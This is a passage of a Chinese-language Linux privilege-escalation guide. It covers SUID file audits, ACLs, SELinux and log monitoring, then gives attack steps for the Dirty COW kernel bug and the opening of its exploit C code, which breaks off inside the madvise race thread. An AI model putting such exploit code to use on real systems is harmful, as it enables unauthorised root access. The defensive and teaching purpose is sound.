 定期检查系统中所有文件和目录的权限配置，确保没有多余的特权。

```bash
# 查找所有具有suid位的文件
find / -perm -4000 -type f -exec ls -l {} \;
```

### 使用访问控制列表 (ACL)

使用访问控制列表（ACL）来细粒度地控制文件和目录的访问权限。

```bash
# 设置文件的ACL
setfacl -m u:username:rwx filename
```

### 安全编码实践

编写代码时遵循安全编码实践，避免潜在的漏洞。例如，防止缓冲区溢出、格式化字符串漏洞等。

### 启用安全模块

使用安全模块如SELinux或AppArmor，来限制进程的操作范围，提高系统安全性。

```bash
# 启用SELinux
setenforce 1
```

### 日志监控

实时监控系统日志，及时发现和响应潜在的权限提升尝试。

```bash
# 查看系统日志
tail -f /var/log/auth.log
```

## 案例扩展

### 1. Linux Kernel Exploits
在某些情况下，攻击者可以利用Linux内核中的漏洞进行权限提升。例如，CVE-2016-5195（Dirty COW）是一个常见的权限提升漏洞，通过写时复制（copy-on-write）机制的竞争条件，攻击者可以将只读内存页修改为可写，进而提升权限。

#### 攻击步骤
查找目标系统中存在的漏洞（例如通过内核版本）。
利用漏洞代码进行攻击。
```c
// Dirty COW Exploit (示例代码)
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
struct stat st;
char *name;

void *madviseThread(void *arg) {
    int i, c = 0;
    for(i = 0; i < 1000000 && !c; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("madvise %d\n\n", c);
```